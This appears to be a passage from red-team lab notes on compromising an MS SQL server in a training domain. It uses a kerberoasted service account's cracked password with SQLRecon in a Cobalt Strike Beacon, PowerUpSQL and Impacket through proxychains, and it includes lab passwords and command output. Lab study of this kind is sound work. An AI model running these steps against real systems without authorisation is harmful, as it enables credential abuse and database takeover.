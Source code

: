 Another option is to go after the MS SQL service account itself as this is also often given sysadmin privileges.  This assumption is the basis of BloodHound's SQLAdmin attack path.  We know that the domain account being used to run the service is `DEV\mssql_svc` and that the account is kerberoastable owing to its SPN.  If we can crack its plaintext password, we can use it to gain access to the SQL instance.  The credentials can be used with `make_token` in Beacon and `/a:WinToken` in SQLRecon; or the `/a:WinDomain` option with `/d:<domain> /u:<username> /p:<password>` in SQLRecon directly.

```powershell
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:windomain /d:dev.cyberbotic.io /u:mssql_svc /p:Cyberb0tic /h:sql-2.dev.cyberbotic.io,1433 /m:whoami

[*] Determining user permissions on sql-2.dev.cyberbotic.io,1433
[*] Logged in as DEV\mssql_svc
[*] Mapped to the user dbo
[*] Roles:
 |-> User is a member of public role.
 |-> User is NOT a member of db_owner role.
 |-> User is NOT a member of db_accessadmin role.
 |-> User is NOT a member of db_securityadmin role.
 |-> User is NOT a member of db_ddladmin role.
 |-> User is NOT a member of db_backupoperator role.
 |-> User is NOT a member of db_datareader role.
 |-> User is NOT a member of db_datawriter role.
 |-> User is NOT a member of db_denydatareader role.
 |-> User is NOT a member of db_denydatawriter role.
 |-> User is a member of sysadmin role.
 |-> User is a member of setupadmin role.
 |-> User is a member of serveradmin role.
 |-> User is a member of securityadmin role.
 |-> User is a member of processadmin role.
 |-> User is a member of diskadmin role.
 |-> User is a member of dbcreator role.
 |-> User is a member of bulkadmin role.
```
Once we have access, there are several options for issuing queries against a SQL instance.  `Get-SQLQuery` from PowerUpSQL
```powershell
beacon> powerpick Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"

Column1
-------
SQL-2
```
`SQLRecon` tool example
```powershell
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:query /c:"select @@servername"

[*] Executing 'select @@servername' on sql-2.dev.cyberbotic.io,1433
column0 | 
----------
SQL-2 |
```
`mssqlclient.py`  examplefrom Impacket via proxychains:
```powershell
ubuntu@DESKTOP-3BSK7NO ~> proxychains mssqlclient.py -windows-auth DEV/bfarmer@10.10.122.25
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:Sup3rman
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.25:1433-<><>-OK
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
```